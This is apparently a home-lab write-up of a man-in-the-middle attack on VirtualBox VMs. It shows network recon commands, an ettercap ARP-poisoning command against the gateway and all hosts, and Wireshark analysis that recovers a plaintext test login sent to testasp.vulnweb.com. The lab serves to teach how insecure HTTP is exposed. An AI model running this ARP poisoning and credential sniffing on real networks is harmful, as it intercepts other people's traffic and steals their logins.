










# Ettercap MITM Home Lab

This is an Man in the Middle (MITM) attack home lab using `ettercap` for ARP poisoning and Wireshark for credential sniffing over insecure HTTP connections.

## Pre-Requisites

1. VirtualBox
2. Kali VM
3. Debian Desktop VM
4. pfSense VM
5. [Virtual Lab Architecture](https://dev.to/shobanchiddarth/the-superior-way-to-make-vms-communicate-with-each-other-as-well-as-host-with-internet-access-42m1)

## Network Architecture Setup



### VM Details

- 1 pfSense as router
- 1 Kali VM as attacker
- 2 Debian VMs as victims

### Networks

| Network Name | Purpose | IP Addressing |
| --- | --- | --- |
| VirtualBox Host Only Ethernet Adapter 4 (`vboxnet4`) | LAN for the Attacker and Victims | Network: `192.168.60.0/24`<br>Gateway: `192.168.60.2`<br>DNS:`192.168.60.2` |
| NAT | Public Internet connectivity | Fully managed by VirtualBox |

### Adapter details

#### 1. pfSense VM

| Adapter Number | Adapter Name | Network it is attached to |
| --- | --- | --- |
| 1 | `em0` (WAN Adapter) | `NAT` |
| 2 | `em1` (LAN Adapter) | `vboxnet4` |

#### 2. Kali VM

| Adapter Number | Adapter Name | Network it is attached to |
| --- | --- | --- |
| 1 | `eth0` | `vboxnet4` |

#### 3. Both Debia Victims VM

| Adapter Number | Adapter Name | Network it is attached to |
| --- | --- | --- |
| 1 | `enp0s3` | `vboxnet4` |


## Kali attacker setup

### Attack Scope

What we are doing is,
1. Make the router add Kali's MAC address to its ARP table for every host IP
2. Make every victim host add Kali's MAC address to its ARP table for gateway IP

### IP Forwarding

So all traffic will be routed through Kali. In order to do that, we need to enable IP forwarding (temporarily) in Kali VM using the command

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

Verify it with

```bash
cat /proc/sys/net/ipv4/ip_forward
```

Screenshot:




## Recon

Objectives:

We need to know
1. Private IP of Attacker
2. Subnet
3. Gateway IP
4. Victim IPs (Other hosts in the same network)

We already know this as we designed the network while setting up the lab. But here is how an attacked would do reconnaisance in a real attack scenario.

### 1. Private IP and 2. Subnet

```bash
ifconfig eth0 <or any other interface name>
```

Will print the private IP of the attacker's machine, along with the subnet mask.



From that, we can use it to reconstruct the network address. In our case, it is `192.168.60.0/24`


### 3. Gateway IP

We can issue this command to show the route table to find out the default gateway's address

```bash
ip route
```



Now we know that the router's IP address is `192.168.60.2`

### 4. List of other hosts IP addresses

We can use the tool `netdiscover` to identify other hosts in the network connected to the network the attacker's machine is connected to.

```bash
sudo netdiscover -i eth0
```



Apart from Kali, the list of hosts shown through netdiscover are

| IP | Details |
| --- | --- |
| `192.168.60.1` | This is the bare metal host on which VirtualBox is running. Since we are using VirtualBox Host Only Ethernet adapter the host needs an IP in the subnet to access the VMs in this Host Only Network. This will not exist in real world, and also we don't have to consider this for the lab. |
| `192.168.60.2` | This is the gateway as confirmed by the `ip route` command |
| `192.168.60.102` | Unknown - Victim |
| `192.168.60.103` | Unknown - Victim |


## Recon Summary

Our reconnaissance is over. Here is the information we have gathered

| Key | Value |
| --- | --- |
| Private IP of Attacker | `192.168.60.101` |
| Subnet | `192.168.60.0/24` |
| Gateway IP | `192.168.60.2` |
| Victim IPs | `192.168.60.102`, `192.168.60.103` |


## Launching the attack

For satisfying the attack scope, we need to execute the following command

```bash
sudo ettercap -T -q -i eth0 -M arp:remote /// /192.168.60.2//
```

In this command

- `-T`: starts `ettercap` in text mode
- `-q`: quiet mode, as we will capture the packets in wireshark
- `-i eth0`: specifies the interface
- `-M`: Man in the Middle Mode
- `arp:remote`: Enables ARP poisoning
- `///` : All hosts, all ports
- `/192.168.60.2//`: Gateway, all ports

After issusing the command, spoofing and poisoning will begin.



Now we must run wireshark on the same interface ettercap is running to capture the packets and save it to a file for further analysis.



Now generate some traffic from the Victim VMs, and save the wireshark capture to a file.

The file I captured is [mitm-lab-capture.pcapng](./mitm-lab-capture.pcapng)

## Analysing the capture

We can filter the capture using queries. 

### Victim 1

We first filter Victim 1's traffic using the wireshark filter.

```
ip.addr == 192.168.60.102
```



This will show us the packets that were sent from and to Victim 1's IP address.

From reading the whole file with that filter, we can conclude that Victim 1 did the following things

1. pinged `1.1.1.1`
2. Did a DNS lookup on `google.com`
3. Pinged `google.com`
4. Sent a HTTP GET request to `httpbin.org/ip`
5. Sent a HTTP GET request to `ifconfig.me`
6. Sent a HTTP GET request to `amazon.com`


### Victim 2

Let's do the same for Victim 2. The filter query will be

```
ip.addr == 192.168.60.103
```



From reading the entire filtered file, we can say

1. Victim 2 opened firefox web browser as there are a lot of requests to mozilla related domains
2. Visited `duckduckgo.com` but since it was over HTTPS we can't see the contents
3. Sent a HTTP GET request to `testasp.vulnweb.com` (and since it was opened in a browser several other HTTP GET requests were sent to load fonts, icons and images)
4. Sent a HTTP GET request to `testasp.vulnweb.com/Login.asp?RetURL=%2FDefault%2Easp%3F` (opened the login page)
5. Sent a HTTP POST request to `testasp.vulnweb.com/Login.asp?RetURL=%2FDefault%2Easp%3F` (entered the credentials and clicked login)



We can investigate this specific capture to find out the login credentials. I copied it as text from Wireshark GUI and here is the content

```
''EA@@]<g, P(>PPOST /Login.asp?RetURL=%2FDefault%2Easp%3F HTTP/1.1
Host: testasp.vulnweb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://testasp.vulnweb.com
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://testasp.vulnweb.com/Login.asp?RetURL=%2FDefault%2Easp%3F
Cookie: ASPSESSIONIDAAATQBSA=PCOMDECBNANACHKMPIDDANAM
Upgrade-Insecure-Requests: 1
Priority: u=0, i

tfUName=johndoe&tfUPass=password%40123
```

So the username is `johndoe` and the password is `password@123` (after URL decoding).


